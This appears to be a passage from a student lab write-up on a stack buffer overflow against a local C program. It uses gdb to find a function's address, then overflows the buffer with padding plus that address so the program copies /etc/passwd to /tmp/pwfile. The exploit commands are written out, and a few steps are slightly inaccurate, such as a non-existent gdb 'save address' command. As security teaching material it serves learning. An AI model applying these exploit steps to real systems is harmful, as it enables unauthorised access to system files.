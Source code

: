 <img width="500" alt="Screenshot" src="./img/bof_1.png"><br>

## 4. Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile

-First, we use debugger gdb
```sh
gdb -q bof.out
``` 
-Second, show the computer source code of redundant_code function to find the location of that function:
```sh
disas redundant_code
``` 
-Third, we save that address of redundant_code function
```sh
save address 0x0804846b
``` 
-Fourth, we determine how many character need to inject:
```sh
run $(perl -e 'print "A"x<length>')
``` 
-Fifth, prepare payload:
```sh
shellcode = "\x6b\x84\x04\x08"
``` 
-Sixth, we quit debug:
```sh
q
``` 
-Seventh, we inject a lot of character 'a' to conduct buffer overflow attack
```sh
python -c "print('A' * 28 + '\x6b\x84\x04\x08')" | ./bof.out
``` 
Output screenshot: <br>